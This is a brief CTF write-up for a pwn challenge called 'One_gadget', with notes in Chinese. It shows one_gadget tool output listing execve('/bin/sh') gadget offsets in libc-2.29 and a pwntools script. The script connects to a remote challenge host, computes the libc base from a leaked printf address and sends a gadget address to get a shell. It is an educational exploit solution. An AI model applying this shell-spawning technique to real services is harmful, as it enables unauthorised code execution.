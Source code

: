 

# One_gadget



这里有各种版本的[so文件](https://buuoj.cn/resources)

```c
$ one_gadget libc-2.29.so 
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

![LQibhM](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/LQibhM.png)

![awPOkl](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/awPOkl.png)



解题脚本

```python
#!/usr/bin/python
from pwn import *


#p=process("one_gadget.dms",env={"LD_PRELOAD":"libc-2.29.so"})
p=remote("111.73.46.229",25662)
#gdb.attach(p,"b *0x7ffff7b44b86")
libc=ELF('libc-2.29.so')

p.recvuntil("here is the gift for u:")
s=p.recv(14)
offset=libc.symbols['printf']
print "printf:"+hex(offset)
libc_addr=int(s,16)-offset
print "leak:"+s
print "libc_addr:"+hex(libc_addr)

one_gadget=0x106ef8+libc_addr
print "one_gadget:"+hex(one_gadget)
p.recvuntil("Give me your one gadget:")
p.sendline(str(one_gadget))
p.interactive()

'''

$ one_gadget libc-2.29.so 
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
```

![LLJzEZ](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/LLJzEZ.png)